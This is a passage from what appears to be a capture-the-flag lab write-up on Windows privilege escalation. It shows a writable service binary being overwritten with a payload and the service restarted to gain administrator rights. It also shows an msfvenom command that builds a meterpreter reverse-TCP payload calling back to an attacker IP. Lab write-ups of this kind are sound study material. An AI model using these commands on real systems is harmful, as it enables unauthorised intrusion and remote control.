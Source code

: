 The filepermservice.exe file has "FILE_ALL_ACCESS" permission for Everyone set.

Exploitation : 
Using the x.exe file used previously, and copied it to filepermservice.exe to replace it.

```console
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```
{: .nolineno }

Then starting the service :

```console
 sc start filepermsvc
 ```
{: .nolineno }

We now have the user added to the local administrators group :

![Verification](/images/thm/windowsprivescarena/windowsprivescarena_12.png)
_Verification_

No Answer

## TASK 7 : Privilege Escalation - Startup Applications
### Click 'Completed' once you have successfully elevated the machine

New payload generated :

```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.199.49 LPORT=53 -f exe -o x.exe
 ```
{: .nolineno }
